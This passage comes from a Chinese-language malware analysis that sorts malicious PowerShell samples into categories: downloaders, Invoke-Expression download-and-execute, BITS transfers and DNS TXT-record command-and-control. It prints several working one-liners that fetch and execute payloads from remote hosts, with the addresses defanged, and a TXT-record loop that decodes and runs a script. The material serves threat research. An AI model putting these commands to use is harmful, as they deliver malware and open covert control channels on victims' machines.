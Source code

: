 简略表现形式：

```
($dpl=$env:temp+'f.exe');(New-Object System.Net.WebClient).DownloadFile('http://alonqood[.]com/abacom.exe', $dpl);Start-Process $dpl
```

**4.5 Downloader IEXDS（19个样本，占比0.46%）**

这也是搜索PowerShell如何下载和执行的常见搜索结果。此类变种简单地从远程下载PowerShell脚本并利用Invoke-Expression加以执行。不同个体所生成的载荷可以完全不同且没有关联。

以下两个样本下载了“Invoke-TwitterBot“脚本，运行该脚本的主机会成为ShmooCon IX僵尸网络所控制的节点。



```
IEX (New-Object Net.WebClient).DownloadString('http://cannot.loginto[.]me/googlehelper.ps1')
iex ((New-Object Net.WebClient).DownloadString('http://76.74.127[.]38/default-nco.html'))
```

**4.6 BITS Transfer（11个样本，占比0.27%）**

使用PowerShell下载恶意软件的另一种方式是利用BitsTransfer模块。后台智能传输服务（Background Intelligent Transfer Service，BITS）技术通常很少用于恶意软件的下载，但其可以提供与其他传输服务（如HTTP服务）一样的功能。使用这种方法可能允许攻击者规避某些监控策略，并且可以在不影响其他带宽使用条件下完成传输任务。

在我之前的博文中，我提到了Cerber下载器的一类变种，它们使用了BITS技术用来传输文件，这11个变种中有10个与Cerber软件的Word文档有关。



```
Import-Module BitsTransfer
$path = [environment]::getfolderpath("mydocuments")
Start-BitsTransfer -Source "http://94.102.50[.]39/keyt.exe" -Destination "$pathkeyt.exe"
Invoke-Item  "$pathkeyt.exe"
```

**4.7 TXT C2（10个样本，占比0.24%）**

此类样本中，攻击者使用PowerShell发起DNS请求，解析某个域名的TXT记录，该记录包含了另一个PowerShell脚本，通过Invoke-Expression加以执行。

```
if(''+(nslookup -q=txt p.s.os.ns.rankingplac[.]pl) -match '@(.*)@'){iex $matches[1]}
```

通过以上代码我们可知，脚本发起初始请求后，会循环解析某个域名的TXT记录直至获得请求响应，对响应进行base64解码后再进行执行过程。



```
Non-authoritative answer:
p.s.os.ns.rankingplac.pltext = "@$str='';$i=1;while(1){if(''+(nslookup -q=txt "l.$i.ns.rankingplac[.]pl.") -match '@(.*)@'){$str += [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($matches[1]))} else {break;}$i++}iex $str@"
```

该代码使得攻击者在条件允许时可以与受害主机建立命令和控制信道。

微软的John Lambert最近在Twitter上公布了这类变种信息，确定它们只是用来进行渗透测试。该变种的另一个样本也可以在Nishang渗透测试框架中找到。

**4.8 Downloader Proxy（9个样本，占比0.22%）**

此类变种在PowerShell中直接使用系统已配置的代理及用户凭证。用户名通过Web请求中的“u“参数进行传递。这是一种典型的“记录型”技术，攻击者可以借此鉴别他们所突破的受害者，也可以用来处理后续的交互方式（比如，如果攻击者发现沙盒相关的用户凭证则会阻断后续连接）。

